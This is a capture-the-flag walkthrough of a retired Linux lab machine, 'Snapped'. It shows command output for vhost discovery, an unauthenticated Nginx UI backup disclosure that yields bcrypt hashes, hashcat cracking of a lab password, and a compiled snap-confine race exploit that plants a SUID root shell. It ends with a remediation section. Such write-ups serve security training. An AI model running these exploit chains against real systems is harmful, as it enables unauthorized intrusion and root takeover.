

| Property         | Value                                                                                                                      |
| ---------------- | -------------------------------------------------------------------------------------------------------------------------- |
| **OS**           | Linux                                                                                                                      |
| **Difficulty**   | Hard                                                                                                                       |
| **Release Date** | 23rd March, 2026                                                                                                           |
| **State**        | Retired                                                                                                                    |
| **IP**           | 10.10.10.X                                                                                                                 |
| **Techniques**   | Unauthenticated backup disclosure (CVE-2026-27944), bcrypt hash cracking, snap-confine SUID race condition (CVE-2026-3888) |
| **Tags**         | #web #privesc #linux                                                                                                       |

---
## Summary

Snapped is a hard Linux machine based on an Nginx UI instance hosted on a discovered virtual host. An unauthenticated backup-disclosure vulnerability (CVE-2026-27944) leaks the AES key/IV needed to decrypt a full application backup, exposing a bcrypt password hash from the SQLite database. Cracking that hash yields valid SSH credentials for a low-privileged user. Root is obtained by exploiting a race condition in `snap-confine` triggered via a `systemd-tmpfiles` cleanup timing window (CVE-2026-3888), which plants a SUID root shell.

---

## Enumeration

### Nmap Scan

```
nmap -sV -sC --open snapped.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-11 09:34 EDT
Nmap scan report for snapped.htb (10.129.125.70)
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Snapped — Infrastructure. Orchestration. Control.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 11.74 seconds
```

### Service Enumeration

Virtual host discovery reveals a subdomain not visible from the base site:

```
gobuster vhost -u http://snapped.htb -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -k --append-domain
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://snapped.htb
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
admin.snapped.htb Status: 200 [Size: 1407]
Progress: 20000 / 20000 (100.00%)
===============================================================
Finished
===============================================================
```

`admin.snapped.htb` is added to `/etc/hosts` so it resolves locally. Browsing to it shows an Nginx UI login/management panel.



---
## Foothold

### Vulnerability

A search for recent Nginx UI vulnerabilities turns up **[CVE-2026-27944](https://cve.org/CVERecord?id=CVE-2026-27944)**.

Nginx UI is a web-based management interface for the Nginx web server. In versions prior to **2.3.3**, the `/api/backup` endpoint is reachable **without authentication** and returns the AES encryption key/IV needed to decrypt the backup archive, inside the `X-Backup-Security` response header. This lets an unauthenticated attacker pull a full backup including credentials, session tokens, SSL private keys, and Nginx configs and decrypt it immediately. The issue is fixed in 2.3.3.

### Exploitation

A public PoC for the disclosure/decryption chain is available: https://github.com/advisories/GHSA-g9w5-qffc-6762

Running it against the discovered vhost pulls and decrypts the backup in one step:

```shell
python3 poc.py --target http://admin.snapped.htb --out backup.bin --decrypt

X-Backup-Security: I2BYayPDb79HJvt7XkOnOYpeqOpxx96Wk4atqrdhzcY=:dEr+E8UZbS0a7TTu9tq82Q==
Parsed AES-256 key: I2BYayPDb79HJvt7XkOnOYpeqOpxx96Wk4atqrdhzcY=
Parsed AES IV    : dEr+E8UZbS0a7TTu9tq82Q==

[*] Key length: 32 bytes (AES-256 ✓)
[*] IV length : 16 bytes (AES block size ✓)

[*] Extracting encrypted backup to backup_extracted
[*] Main archive contains: ['hash_info.txt', 'nginx-ui.zip', 'nginx.zip']
[*] Decrypting hash_info.txt...
    → Saved to backup_extracted/hash_info.txt.decrypted (199 bytes)
[*] Decrypting nginx-ui.zip...
    → Saved to backup_extracted/nginx-ui_decrypted.zip (7765 bytes)
    → Extracted 2 files to backup_extracted/nginx-ui
[*] Decrypting nginx.zip...
    → Saved to backup_extracted/nginx_decrypted.zip (9936 bytes)
    → Extracted 22 files to backup_extracted/nginx

[*] Hash info:
nginx-ui_hash: c5ec27f75aef9bf7861697d197964dbd8b327e354cfc111f54065f1abf7c9f13
nginx_hash: 9b17eb8d31e6dc4a120a28a1048cfc8bd816fff3f9beb05495306e02329a862d
timestamp: 20260911-111839
version: 2.3.2
```

The extracted archive contains the Nginx UI SQLite database. Dumping it surfaces the application's `users` table:

```sql
sqlite3 database.db
SQLite version 3.46.1 2024-08-13 09:16:08
sqlite> .dump
...
INSERT INTO users VALUES(1,...,'admin','$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm',...);
INSERT INTO users VALUES(2,...,'jonathan','$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq',...);
...
```

Two bcrypt hashes are recovered (`admin` and `jonathan`). The `jonathan` hash can be cracked with hashcat.

**Cracking the hash:**

```
hashcat -m 3200 '$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq' /usr/share/wordlists/rockyou.txt
...
$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark
...
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Credentials: **`jonathan:linkinpark`**

**SSH access:**

```
ssh jonathan@snapped.htb
...
jonathan@snapped:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  snap  Templates  user.txt  Videos
```

```
jonathan@snapped:~$ cat user.txt
[REDACTED]
```

---

## Privilege Escalation

### Enumeration

A SUID binary sweep turns up nothing unusual beyond standard system binaries:

```
jonathan@snapped:~$ find / -perm -4000 2>/dev/null
/snap/snapd/21759/usr/lib/snapd/snap-confine
/snap/core22/1564/usr/bin/chfn
/snap/core22/1564/usr/bin/chsh
/snap/core22/1564/usr/bin/gpasswd
/snap/core22/1564/usr/bin/mount
/snap/core22/1564/usr/bin/newgrp
/snap/core22/1564/usr/bin/passwd
/snap/core22/1564/usr/bin/su
/snap/core22/1564/usr/bin/sudo
/snap/core22/1564/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount3
/usr/bin/umount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
```

The presence of `snap-confine` as SUID, combined with the installed `snapd` version, points toward a known snapd privilege-escalation class:

```
jonathan@snapped:~$ snap version
snap    2.63.1+24.04
snapd   2.63.1+24.04
series  16
ubuntu  24.04
kernel  6.17.0-19-generic
```

```
jonathan@snapped:~$ which busybox
/usr/bin/busybox
```

The installed snapd version and the presence of `busybox` line up with the prerequisites for **CVE-2026-3888**:

> Local privilege escalation in snapd on Linux allows local attackers to gain root privileges by re-creating snap's private `/tmp` directory when `systemd-tmpfiles` is configured to automatically clean it up. Affects Ubuntu 16.04, 18.04, 20.04, 22.04, and 24.04 LTS.

### Exploitation

A public PoC targeting this race condition is available: https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE.git

The PoC's two components are compiled locally, then transferred to the target:

```shell
gcc -O2 -static -o exploit exploit_suid.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
```

```
python3 -m http.server 9002
Serving HTTP on 0.0.0.0 port 9002 (http://0.0.0.0:9002/) ...
10.129.126.88 - - [12/Sep/2026 05:46:35] "GET /exploit HTTP/1.1" 200 -
10.129.126.88 - - [12/Sep/2026 05:46:56] "GET /librootshell.so HTTP/1.1" 200 -
```

```
jonathan@snapped:~$ chmod +x exploit librootshell.so
```

Running the exploit wins the race against `systemd-tmpfiles`'s cleanup of snapd's private `/tmp`, poisons the mount namespace used by `snap-confine`, and ultimately drops a SUID root shell:

```
jonathan@snapped:~$ ./exploit ./librootshell.so
================================================================
    CVE-2026-3888 — snap-confine / systemd-tmpfiles SUID LPE
================================================================
[*] Payload: /home/jonathan/./librootshell.so (9056 bytes)

[Phase 1] Entering Firefox sandbox...
[+] Inner shell PID: 4108

[Phase 2] Waiting for .snap deletion...
[+] .snap deleted.

[Phase 3] Destroying cached mount namespace...
[+] Namespace destroyed.

[Phase 4] Setting up and running the race...
[*]   Starting race...
[!]   TRIGGER — swapping directories...
[+]   SWAP DONE — race won!
[+]   Poisoned namespace PID: 4199

[Phase 5] Injecting payload into poisoned namespace...
[+]   ld-linux owned by uid 1000 (attacker). Race confirmed.
[+]   Payload injected.

[Phase 6] Triggering root via SUID snap-confine...
[*]   Exit status: 0

[Phase 7] Verifying...
[+] SUID root bash: /var/snap/firefox/common/bash (mode 4755)

================================================================
  ROOT SHELL: /var/snap/firefox/common/bash -p
================================================================

bash-5.1# id
uid=1000(jonathan) gid=1000(jonathan) euid=0(root) groups=1000(jonathan)
```

### Root Flag

```
bash-5.1# cat /root/root.txt
[REDACTED]
```

---

## Remediation

- **Patch Nginx UI to ≥ 2.3.3.** The `/api/backup` endpoint must require authentication, and encryption material should never be returned in response headers.
- **Rotate all credentials stored in the compromised backup**, including the admin/jonathan password hashes, DNS provider credentials, and any ACME/SSL private keys.
- **Patch snapd to a version that addresses CVE-2026-3888**, or disable automatic `systemd-tmpfiles` cleanup of snapd's private `/tmp` on affected systems until patched.
- **Regularly audit SUID binaries** and monitor for anomalous namespace/mount activity, which can be an indicator of race-condition exploitation attempts.

---
## References

- [CVE-2026-27944 — Nginx UI unauthenticated backup key disclosure](https://cve.org/CVERecord?id=CVE-2026-27944)
- [GHSA-g9w5-qffc-6762 advisory](https://github.com/advisories/GHSA-g9w5-qffc-6762)
- [CVE-2026-3888 PoC — snap-confine / systemd-tmpfiles LPE](https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE.git)